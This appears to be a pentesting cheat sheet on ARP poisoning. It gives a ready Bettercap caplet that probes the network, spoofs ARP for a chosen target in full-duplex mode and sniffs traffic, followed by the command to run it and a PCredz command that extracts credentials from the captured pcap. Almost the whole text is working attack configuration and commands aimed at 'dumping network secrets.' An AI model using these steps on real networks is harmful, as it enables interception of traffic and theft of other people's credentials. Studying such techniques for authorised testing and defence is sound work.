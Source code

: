 # ARP Poisoning

## Tools: Bettercap PCredz 

Link: https://github.com/lgandx/PCredz

## Use cases

### 1) Dump Network Secrets

#### Bettercap config file

##### quick recon of the network
    net.probe on

##### set the ARP poisoning
    set arp.spoof.targets <target_IP>
    set arp.spoof.internal true
    set arp.spoof.fullduplex true

##### control logging and verbosity
    events.ignore endpoint
    events.ignore net.sniff.mdns

##### start the modules
    arp.spoof on
    net.sniff on

### 2) Run bettercap

    sudo ./bettercap --iface <interface> --caplet spoof.cap

### 3) Then sniff with Wireshark. When it is finish, save the trace in a .pcap file and extract the secrets:

    python3 ./Pcredz -f extract.pcap
